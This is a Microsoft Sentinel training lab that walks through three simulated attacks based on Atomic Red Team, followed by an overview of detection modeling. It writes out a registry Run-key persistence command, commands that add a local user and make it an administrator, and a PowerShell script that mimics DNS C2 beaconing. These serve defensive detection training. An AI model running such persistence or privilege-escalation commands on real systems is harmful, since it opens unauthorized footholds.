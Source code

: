 ## Lab 05 - Understand Detection Modeling

### Lab Scenario

In this lab, you will understand the attacks and Detection Modeling

## Lab objectives
 In this lab, you will understand the following:
- Task 1: Understand the Attacks
- Attack 1 - Persistence with Registry Key Add.
- Attack 2 - User Add and Elevate Privilege
- Attack 3 - DNS / C2 
- Task 2: Understand Detection Modeling.

## Estimated timing: 10 minutes

## Architecture Diagram

  ![Lab overview.](./media/lab3-AD.png)

### Task 1: Understand the Attacks

**IMPORTANT: You will perform no actions in this exercise.**  These instructions are only an explanation of the attacks you will perform in the next exercise. Please carefully read this page.

The attack patterns are based on an open-source project: https://github.com/redcanaryco/atomic-red-team

   **Note:** Some settings are triggered in a smaller time frame just for our lab purpose.

#### Attack 1 - Persistence with Registry Key Add.

This attack is run from a command prompt:

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### Attack 2 - User Add and Elevate Privilege

Attackers will add new users and elevate the new user to the Administrators group.  This enables the attacker to log on with a different account that is privileged.

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### Attack 3 - DNS / C2 

This attack will simulate a command and control (C2) communication.

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```
   > **Congratulations** on completing the task! Now, it's time to validate it. Here are the steps:
    > - Click the Lab Validation tab located at the upper right corner of the lab guide section and navigate to the Lab Validation tab.
    > - Hit the Validate button for the corresponding task.
    > - If you receive a success message, you can proceed to the next task. If not, carefully read the error message and retry the step, following the instructions in the lab guide.
    > - If you need any assistance, please contact us at labs-support@spektrasystems.com. We are available 24/7 to help you out.

### Task 2: Understand Detection Modeling.

Microsoft Sentinel Analytics provides an intelligent solution that you can use to detect potential threats and vulnerabilities in your organization. You can detect previously uncovered threats and rapidly remediate threats with built-in orchestration and automation in Microsoft Sentinel.

Detection modeling in XDR involves the creation and refinement of rules, algorithms, and analytical processes to identify and respond to security threats across various endpoints, networks, and cloud environments. XDR integrates data from multiple sources to provide a comprehensive and correlated view of potential security incidents.

You can detect the threats or incidents using various tools in Azure Sentinel. For example, by configuring various Data Connectors in Azure Sentinel, you will get the incidents/alerts through the connected providers; and run queries in the Log Analytics workspace to detect these potential alerts which you will learn in the upcoming labs.

![Lab overview.](./media/lab05-data-connectors.png)

Using Microsoft Sentinel Analytics, you can analyze historical data collected from your workstations, servers, networking devices, firewalls, intrusion prevention, sensors, and so on. Microsoft Sentinel Analytics analyzes data from various sources to identify correlations and anomalies. Common security analytics use cases include:
* Identification of compromised accounts
* User behavior analysis to detect potentially suspicious patterns
* Network traffic analysis to locate trends indicating potential attacks
* Detection of data exfiltration by attackers
* Detection of insider threats
* Investigation of incidents
* Threat hunting

  ![Lab overview.](./media/lab05-analytics.png)

## Review
In this lab completed the following tasks:
- You have understood attacks:
   - Attack 1 - Persistence with Registry Key Add.
   - Attack 2 - User Add and Elevate Privilege
   - Attack 3 - DNS / C2 
- You have understood Detection Modeling. 
